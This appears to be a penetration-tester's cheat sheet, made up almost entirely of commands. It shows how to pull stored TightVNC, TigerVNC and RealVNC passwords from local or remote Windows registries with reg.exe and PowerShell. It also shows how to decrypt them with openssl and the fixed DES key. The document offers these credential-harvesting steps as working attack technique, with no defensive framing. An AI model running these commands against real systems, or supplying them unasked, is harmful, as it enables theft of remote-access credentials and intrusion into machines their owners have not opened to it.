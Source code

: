 # Living off the Land

## 01 - TightVNC

### 1.1 - Command Prompt

```
C:\> reg.exe query [\\<IP>\]HKCU\Software\TigerVNC\WinVNC4 /v Password

C:\> reg.exe query [\\<IP>\]HKCU\SOFTWARE\TightVNC\Server" /v Password
```

Decode the hardcoded password.

```
$ basenc -d --base16 <<< "<hex_encoded_password" | openssl enc -provider legacy -des-cbc -nopad -nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -C
```

### 1.2 - PowerShell

```powershell
PS C:\> Get-ItemProperty -Path "HKCU:\Software\TightVNC\Server"

PS C:\> $FormatEnumerationLimit = -1
Get-ItemProperty -Path Registry::HKLM\software\TightVNC\Server -Name ControlPassword
$password = 139, 16, 57, 246, 188, 35, 53, 209
ForEach ($hex in $password) {
[Convert]::ToString($hex, 16) }
```

## 02 - RealVNC

### 2.1 - Command Prompt

```
C:\> reg.exe query [\\<IP>\]HKCU\Software\ORL\WinVNC3\Password

C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\RealVNC\WinVNC4 /v password

C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\RealVNC\vncserver
```

### 2.2 - PowerShell

```
PS C:\> Get-ItemProperty -Path "HKCU:\Software\ORL\WinVNC3\Password"

PS C:\> Get-ItemProperty -Path "HKLM:\SOFTWARE\RealVNC\WinVNC4" -Name password
```

---
## References

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)
